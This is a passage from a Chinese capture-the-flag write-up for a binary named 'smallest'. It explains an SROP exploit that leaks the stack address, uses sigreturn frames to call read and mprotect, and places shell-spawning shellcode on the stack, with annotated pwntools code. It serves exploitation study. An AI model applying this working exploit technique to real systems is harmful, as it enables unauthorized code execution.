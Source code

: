 由于开启了NX/DEP保护，所以并不能输入shellcode来获取shell，但是可以通过SROP利用mprotect修改内存页属性+shellcode来getshell。程序没有bss段，只能选择先用mprotect修改一片不可写内存为可写或者直接写在栈上。前一种方案势必要使用SROP，从而造成栈劫持，而新栈上的数据无法控制，会导致程序retn后崩溃。因此只能选择写shellcode在栈上。这就需要泄露栈地址。可以先用sys_read读取1个字节长度使rax=1，然后调用sys_write(调用号为1)泄露数据,程序设置buf的指令是`mov rsp, rsi`，所以直接返回到这行指令上就可以泄露rsp地址。

```python
    context.update(os="linux",arch="amd64")
    syscall_addr = 0x4000BE
    start_addr = 0x4000B0
    set_rsi_rdi = 0x4000B8
    shellcode = asm(shellcraft.amd64.linux.sh())

    p = process('./smallest')

    payload = p64(start_addr)   # 使程序重新执行，获取输入，进而设置rax为1
    payload += p64(set_rsi_rdi) # mov rsi, rsp; mov rdi, rax; syscall; retn，此时相当于执行sys_write(1, rsp, size)
    payload += p64(start_addr)  # 重新执行程序，方便后续操作

    p.send(payload) # 第一次执行程序，输入payload，使能够第二次输入通过返回值修改rax为1

    sleep(3)
    # p.send(payload[8:8+1])
    p.send('\xb8') # 利用read读取一个字符，设置rax=1,因为输入会修改rsp，一个字符会修改rsp的低8位，为了使程序能够正确执行到0x4000b8,所以这里只能发送0xb8(设置rdi和rdix执行sys_write(1,rsp,size))
    stack_addr = u64(p.recv()[8:16])
    log.info("stack_addr = %#x",stack_addr)
```

程序执行后再一次返回到start，因此接下来程序应该继续执行一次read.利用这次read使用SROP执行sys_read，读取payload(以start_addr开头)后将栈指针劫持到stack_addr,frame_mprotect frame执行完之后将rsp置为stack_addr,内容为start_addr,使程序能够重新执行，如果直接使用frame_mprotect frame,因为不知道start_add对应的栈地址，所以并不能将rsp指向start，这样也就不能让程序在执行完frame_mprotect frame之后再回到satrt重新执行程序来获取shellcode进而getshell，所以这这里需要先通过frame_read将start_addr读到一个可控的栈地址。

```python
    frame_read = SigreturnFrame()   # 设置read的SROP帧
    frame_read.rax = constants.SYS_read
    frame_read.rdi = 0
    frame_read.rsi = stack_addr
    frame_read.rdx = 0x300
    frame_read.rsp = stack_addr # read_frame读取payload的位置，可控的栈地址，方便后续程序重新执行
    frame_read.rip = syscall_addr

    payload1 = p64(start_addr)   # 返回到start重新执行sys_read，利用返回值设置rax=0xf，触发SROP
    payload1 += p64(syscall_addr)
    payload1 += str(frame_read)
    p.send(payload1) # 泄露栈地址之后程序执行的read
    sleep(3)
    p.send(payload1[8:8+15]) # 输入payload后程序重新执行后的read，通过返回值设置rax=0xf，触发SROP
    sleep(3)

    # 此时通过frame_read调用read函数获取输入到stack_addr,payload以start_addr开头
    frame_mprotect = SigreturnFrame()
    # int mprotect(const void *start, size_t len, int prot);
    frame_mprotect.rax = constants.SYS_mprotect
    frame_mprotect.rdi = stack_addr & 0xFFFFFFFFFFFFF000
    frame_mprotect.rsi = 0x1000
    frame_mprotect.rdx = constants.PROT_READ | constants.PROT_WRITE | constants.PROT_EXEC
    frame_mprotect.rsp = stack_addr # 将rsp置为stack_addr,使mprotect frame执行完之后程序能够通过retn再重新执行
    frame_mprotect.rip = syscall_addr

    payload2 = p64(start_addr)
    payload2 += p64(syscall_addr)
    payload2 += str(frame_mprotect)

```
